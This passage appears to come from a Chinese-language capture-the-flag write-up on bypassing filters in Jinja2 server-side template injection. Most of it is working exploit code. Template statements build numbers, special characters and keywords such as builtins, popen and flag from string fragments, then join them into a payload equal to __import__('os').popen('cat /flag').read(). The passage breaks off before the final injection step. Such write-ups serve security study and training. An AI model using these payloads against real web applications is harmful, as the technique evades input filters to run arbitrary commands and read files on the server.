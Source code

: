 [![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-27cdd556-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174701-27cdd556-bd3e-1.png)

通过上述原理，我们可以依次获得构造 payload 所需的特殊字符与字符串：

```
# 首先构造出所需的数字:
{% set zero = (({ }|select|string|list).pop(38)|int) %}    # 0
{% set one = (zero**zero)|int %}    # 1
{% set two = (zero-one-one)|abs %}    # 2
{% set four = (two*two)|int %}    # 4
{% set five = (two*two*two)-one-one-one %}    # 5
{% set seven = (zero-one-one-five)|abs %}    # 7

# 构造出所需的各种字符与字符串:
{% set xhx = (({ }|select|string|list).pop(24)|string) %}    # _
{% set space = (({ }|select|string|list).pop(10)|string) %}    # 空格
{% set point = ((app.__doc__|string|list).pop(26)|string) %}    # .
{% set yin = ((app.__doc__|string|list).pop(195)|string) %}    # 单引号 '
{% set left = ((app.__doc__|string|list).pop(189)|string) %}    # 左括号 (
{% set right = ((app.__doc__|string|list).pop(200)|string) %}    # 右括号 )

{% set c = dict(c=aa)|reverse|first %}    # 字符 c
{% set bfh = self|string|urlencode|first %}    # 百分号 %
{% set bfhc=bfh~c %}    # 这里构造了%c, 之后可以利用这个%c构造任意字符。~用于字符连接
{% set slas = bfhc%((four~seven)|int) %}    # 使用%c构造斜杠 /
{% set but = dict(buil=aa,tins=dd)|join %}    # builtins
{% set imp = dict(imp=aa,ort=dd)|join %}    # import
{% set pon = dict(po=aa,pen=dd)|join %}    # popen
{% set os = dict(o=aa,s=dd)|join %}    # os
{% set ca = dict(ca=aa,t=dd)|join %}    # cat
{% set flg = dict(fl=aa,ag=dd)|join %}    # flag
{% set ev = dict(ev=aa,al=dd)|join %}    # eval
{% set red = dict(re=aa,ad=dd)|join %}    # read
{% set bul = xhx*2~but~xhx*2 %}    # __builtins__


```

将上面构造的字符或字符串拼接起来构造出 `__import__('os').popen('cat /flag').read()`：

```
{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174702-282904b2-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174702-282904b2-bd3e-1.png)

如上图所示，成功构造出了 `__import__('os').popen('cat /flag').read()` 。

然后将上面构造的各种变量添加到 SSTI 万能 payload 里面就行了：
